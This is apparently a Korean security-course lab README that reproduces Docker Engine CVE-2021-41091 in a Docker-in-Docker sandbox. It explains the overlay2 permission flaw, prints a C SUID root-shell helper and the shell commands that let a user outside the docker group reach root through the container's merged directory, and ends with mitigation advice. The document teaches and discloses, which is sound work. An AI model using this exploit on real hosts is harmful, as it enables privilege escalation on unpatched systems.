


# Docker Engine (Moby) CVE-2021-41091

> WhiteHat School 4기 - 가상화(컨테이너 보안 실무) - 강지성 (@gonewroad)

## 취약점 요약

CVE-2021-41091은 Docker Engine(Moby)이 컨테이너 파일시스템을 저장하는 `/var/lib/docker/overlay2/<id>/merged` 디렉토리의 권한을 지나치게 개방적으로 설정하는 결함이다. 컨테이너 안에 SUID 비트가 걸린 실행 파일이 하나라도 존재하면, 호스트의 비특권(non-privileged) 사용자가 Docker 그룹 권한 없이도 overlay2 경로를 직접 탐색·실행해 컨테이너 격리를 우회하고 권한 상승을 할 수 있다.

- 영향 버전: Docker Engine(Moby) < 20.10.9
- CVSS 3.1: **6.3 (Medium)** — 로컬 접근만 있으면 트리거 가능, 사용자 상호작용 불필요, 컨테이너 격리 경계를 넘는 Scope 변화가 핵심

## 환경 구성

실제 호스트 시스템에 영향을 주지 않기 위해 Docker-in-Docker(DinD) 구조로 격리했다. `dind-host` 컨테이너 안에 Docker Engine 20.10.8(패치 직전 마지막 취약 버전)을 고정 설치하고, 그 내부에서만 탈출을 시연한다.

버전 고정에는 apt 저장소 대신 Docker 공식 정적 바이너리 아카이브를 사용했다 (`download.docker.com/linux/static/stable/x86_64/docker-20.10.8.tgz`). apt 저장소는 시간이 지나면 오래된 버전이 인덱스에서 사라질 수 있는 반면, 이 아카이브는 버전별 URL이 고정되어 있어 재현성이 더 안정적이다.

`dind-host` 내부에는 `hostuser`라는 비특권 계정(docker 그룹 미포함)을 별도로 만들어, 실제 운영 서버에서 흔히 볼 수 있는 "일반 SSH 계정을 가진 사용자"를 시뮬레이션했다. `docker-compose.yml`의 `privileged: true`는 DinD 자체를 구동하기 위한 필수 조건이며, 이 CVE와 관련된 misconfiguration이 아니다.

## 취약 조건

overlay2 스토리지 드라이버는 컨테이너 레이어를 병합한 `merged` 디렉토리를 생성할 때 권한을 충분히 제한하지 않는다. 실제로 취약한 환경에서 `namei -l`로 확인한 경로 권한은 다음과 같다.

```
drwxr-xr-x root root /
drwxr-xr-x root root var
drwxr-xr-x root root lib
drwx--x--x root root docker
drwx-----x root root overlay2
drwx-----x root root <container-id>
drwxr-xr-x root root merged
drwxrwxrwt root root tmp
-rwsr-xr-x root root rootshell
```

`overlay2/<id>` 디렉토리 자체는 `drwx-----x`로 잠겨 있지만, 그 안쪽 `merged` 이하 경로는 `drwxr-xr-x`, `drwxrwxrwt`로 사실상 모두에게 열려 있다. 결과적으로 컨테이너 안에 SUID 바이너리가 존재하면, `docker exec`나 `docker run` 같은 Docker API를 전혀 거치지 않고도 호스트의 파일시스템 경로를 통해 그 바이너리에 직접 접근·실행할 수 있다.

이 취약점의 본질은 **Docker의 접근 제어(그룹 권한 체크)를 완전히 우회한다는 점**이다. `hostuser`는 docker 그룹에 속하지 않아 `docker ps` 같은 명령조차 `permission denied`로 거부당하지만, overlay2 경로를 통한 파일 접근은 이 제어를 전혀 거치지 않으므로 그대로 허용된다.

## 재현 절차

```bash
# 1. DinD 호스트 구축
docker compose up -d --build

# 2. Docker 버전 확인 (20.10.8이어야 함)
docker compose exec dind-host docker version

# 3. 내부 쉘 진입 후 exploit 실행
docker compose exec dind-host bash -c "bash /exploit.sh"
```

`exploit.sh`는 다음을 자동으로 수행한다.

1. 공유 라이브러리 의존성이 없는 정적 SUID 헬퍼(`rootshell.c`)를 컴파일한다. `/bin/bash`처럼 동적 라이브러리에 의존하는 바이너리는 SUID 상태에서 로더가 `LD_LIBRARY_PATH`를 무시하기 때문에(라이브러리 하이재킹 방지 보안 기능) 실행이 막힌다 — 이를 우회하기 위해 정적 바이너리를 직접 준비했다.
2. `victim`이라는 이름의 일반 컨테이너를 띄우고, 그 안에 방금 컴파일한 바이너리를 SUID 루트 소유로 심는다.
3. `docker inspect`로 이 컨테이너의 overlay2 `MergedDir` 경로를 확인한다.
4. `hostuser`로 권한을 낮춘 뒤, 먼저 `docker ps`가 거부되는 것을 확인하고, 이어서 같은 사용자가 overlay2 경로를 통해 SUID 바이너리를 직접 실행한다.

마지막 `id` 결과가 `uid=0(root)`이면 재현 성공이다. 완전히 새로 빌드한(`docker compose down -v && docker compose up -d --build`) 클린 환경에서도 수동 개입 없이 동일하게 재현됨을 확인했다.

## PoC 코드

`exploit.sh`에서 사용한 SUID 헬퍼 (`rootshell.c`):

```c
#include <unistd.h>
int main() {
    setresuid(0, 0, 0);
    setresgid(0, 0, 0);
    execl("/bin/sh", "sh", "-p", NULL);
    return 0;
}
```

권한 상승이 실제로 일어나는 핵심 단계:

```bash
MERGED_DIR=$(docker inspect --format '{{.GraphDriver.Data.MergedDir}}' victim)
TARGET="$MERGED_DIR/tmp/rootshell"

# hostuser는 docker 그룹 권한이 없어 API 접근은 거부됨
su hostuser -c "docker ps"
# => Got permission denied while trying to connect to the Docker daemon socket

# 그러나 파일시스템 경로로는 직접 접근·실행이 가능
su hostuser -c "$TARGET -c id"
# => uid=0(root) gid=0(root) groups=0(root),1000(hostuser)
```

전체 스크립트는 본 디렉토리의 `exploit.sh` 참고. 접근 방식은 [UncleJ4ck/CVE-2021-41091](https://github.com/UncleJ4ck/CVE-2021-41091)의 개념을 참고해 직접 재작성했다.

## 실행 결과




## 대응 방안

- Docker Engine 20.10.9 이상으로 업그레이드한다. 이것이 유일한 근본 대응이다.
- 업그레이드만으로는 이미 생성된 디렉토리의 권한이 자동으로 바뀌지 않으므로, 패치 적용 후 기존 컨테이너를 전부 재시작해 권한이 재계산되도록 해야 한다.
- 컨테이너 이미지 내 불필요한 SUID/SGID 바이너리를 최소화한다 (`find / -perm -4000` 등으로 정기 점검).
- Rootless Docker 모드로 운영하면 별도의 User Namespace를 사용하므로 영향이 완화된다.
- 호스트의 `/var/lib/docker` 자체에 대한 접근을 신뢰할 수 있는 사용자로 제한한다.